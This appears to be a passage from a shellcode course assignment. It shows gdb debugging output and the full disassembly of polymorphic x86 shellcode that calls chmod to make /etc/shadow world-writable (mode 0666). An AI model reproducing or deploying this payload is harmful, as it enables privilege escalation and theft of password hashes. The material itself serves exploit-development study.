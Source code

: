 ```nasm
eip            0x8048099	0x8048099 <_start+25>
eflags         0x202	[ IF ]
cs             0x73	115
ss             0x7b	123
ds             0x7b	123
es             0x7b	123
fs             0x0	0
gs             0x0	0
(gdb) x/16bx 0xbffff6f0
0xbffff6f0:	0x2f	0x2f	0x65	0x74	0x63	0x2f	0x73	0x68
0xbffff6f8:	0x61	0x64	0x6f	0x77	0x00	0x00	0x00	0x00
(gdb)
```

#### Disassembly of the Polymorphic Shellcode

```nasm
skawa@ubuntu:~/Desktop/code/assignment/assignment6$ gdb -q ./chmod
Reading symbols from /home/skawa/Desktop/code/assignment/assignment6/chmod...(no debugging symbols found)...done.
(gdb) break _start
Breakpoint 1 at 0x8048080
(gdb) run
Starting program: /home/skawa/Desktop/code/assignment/assignment6/chmod

Breakpoint 1, 0x08048080 in _start ()
(gdb) disas
Dump of assembler code for function _start:
=> 0x08048080 <+0>:	mov    al,0x8
   0x08048082 <+2>:	add    al,al
   0x08048084 <+4>:	dec    al
   0x08048086 <+6>:	cdq    
   0x08048087 <+7>:	push   ecx
   0x08048088 <+8>:	pushw  0x776f
   0x0804808c <+12>:	pushw  0x6461
   0x08048090 <+16>:	pushw  0x6873
   0x08048094 <+20>:	pushw  0x2f63
   0x08048098 <+24>:	pushw  0x7465
   0x0804809c <+28>:	pushw  0x2f2f
   0x080480a0 <+32>:	mov    ebx,esp
   0x080480a2 <+34>:	mov    cx,0x1b6
   0x080480a6 <+38>:	int    0x80
End of assembler dump.
(gdb) break *0x080480a6
Breakpoint 2 at 0x80480a6
(gdb) c
Continuing.

Breakpoint 2, 0x080480a6 in _start ()
(gdb) i r
eax            0xf	15
ecx            0x1b6	438
edx            0x0	0
ebx            0xbffff700	-1073744128
esp            0xbffff700	0xbffff700
ebp            0x0	0x0
esi            0x0	0
edi            0x0	0
eip            0x80480a6	0x80480a6 <_start+38>
eflags         0x216	[ PF AF IF ]
cs             0x73	115
ss             0x7b	123
ds             0x7b	123
es             0x7b	123
```